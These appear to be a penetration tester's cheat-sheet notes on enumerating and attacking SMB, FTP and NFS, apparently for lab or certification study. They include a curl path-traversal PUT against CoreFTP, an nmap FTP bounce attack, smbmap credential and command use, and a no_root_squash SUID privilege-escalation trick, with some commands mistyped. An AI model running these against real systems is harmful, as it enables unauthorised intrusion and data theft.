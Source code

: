 ### SMBMAP
- Default
  - smbmap -H $target

- Enumerate
  - -u USERNAME
  - -r DiskName
    - smbmap -H $target -r DiskName
  - -u USER -H $target -r /ShareNAME/Folder
  - -u "" -p "" = Null section
  - -x COMMANDS
- Download

  - smbmap -u USER -H $target -r /ShareNAME/Folder ---download "share/file.ext"
- Options
  - -H: host
  - -r: path
  - -u: User
  - -p: password

## FTP - 32
- status
- debug
- trace
- ftp $TARGET
  - mget | get
  - mput | put
- Download all:
  - wget -m --no-passive ftp://username:pass@$TARGET
- nmap --scripts
  -  ftp-anon 
- Bounce attack: deliver outbound traffic to anotehr device
  - nmap -p 80 -b user:pass@$TARGET INTERNAL_IP
- With encryption
  - openssl s_client -connect $TARGEt:PORT   -stattls ftp
```
# CoreFTP attack
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

## NFS
- Port 111,2049 for server
- nmap --script nfs*
- Similar to SMB: access file system over network
- find root key + connect
- /etc/exports ==> find no_root_squash = create x with SUID
  - allows write file
  - mount no_root_squash from /etc/exports
  - mount -t cifs -o username=USER,password=PASS //$TARGET/share /path/at/localhost
- Mount:
  - showmount -e $TARGET
  - mkdir target-NFS
  - sudo mount -t nfs 10.129.14.128:/NAME ./target-NFS/ -o nolock
    - nolock: disable file locing
- Umount
  - sudo umount ./target-NFS 
    - sudo umount -l path/to/mount
    - sudo umount -f path/to/mount
